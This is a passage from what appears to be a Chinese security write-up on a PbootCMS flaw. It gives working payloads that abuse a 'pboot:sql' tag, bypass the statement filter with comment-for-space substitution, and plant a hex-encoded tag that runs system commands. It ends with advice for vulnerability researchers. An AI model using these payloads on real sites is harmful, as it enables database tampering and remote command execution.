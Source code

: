 [![](https://p2.ssl.qhimg.com/t018c1791b7287ece20.png)](https://p2.ssl.qhimg.com/t018c1791b7287ece20.png)

我们打印一下解析后的内容，使用如下标签来测试

```
`{`pboot:sql sql=update ay_site set copyright= 0x68656c6c6f where id = 1;#`}`11`{`/pboot:sql`}`
```

[![](https://p5.ssl.qhimg.com/t01fc6ea5f877507e6d.png)](https://p5.ssl.qhimg.com/t01fc6ea5f877507e6d.png)

语句没有被正确的解析出来，仔细查看源码应该是被分割语句的正则匹配到了，尝试将空格替换成注释

```
`{`pboot:sql sql=update/**/ay_site/**/set/**/copyright=/**/0x68656c6c6f/**/where/**/id/**/=/**/1;#`}`11`{`/pboot:sql`}`
```

[![](https://p3.ssl.qhimg.com/t0199a47fbf02ec24b2.png)](https://p3.ssl.qhimg.com/t0199a47fbf02ec24b2.png)

成功解析到我们想要的语句，去前台执行一下

[![](https://p4.ssl.qhimg.com/t013d6d09aeefdb2a3e.png)](https://p4.ssl.qhimg.com/t013d6d09aeefdb2a3e.png)

数据库中内容成功进行了更新，把hello换成我们的标签语句

```
`{`pboot:sql sql=update/**/ay_site/**/set/**/copyright=/**/0x67b70626f6f747b757365723a70617373776f72647d3a69662831296563686f2073747272657628276d6574737973272928276c7327293b2f2f297d79376d3031697b2f70626f6f747b757365723a70617373776f72647d3a69667d/**/where/**/id/**/=/**/1;#`}`11`{`/pboot:sql`}`
```

[![](https://p5.ssl.qhimg.com/t015dd76569e0fc7792.png)](https://p5.ssl.qhimg.com/t015dd76569e0fc7792.png)

接着访问首页

[![](https://p1.ssl.qhimg.com/t014032174eeb1f2de9.png)](https://p1.ssl.qhimg.com/t014032174eeb1f2de9.png)

成功的执行了system函数



## 总结

造成该漏洞的主要原因还是因为程序增加了新的功能点，并且功能点没有进行完整的安全防御，导致可以在前台直接执行sql语句，进而将可执行的标签写入数据库，在前台解析执行命令；这也提醒我们在平时挖掘漏洞的时候可以多注意一些新添加的功能，同时充分了解过往存在的漏洞，打出组合拳往往有出其不意的效果。
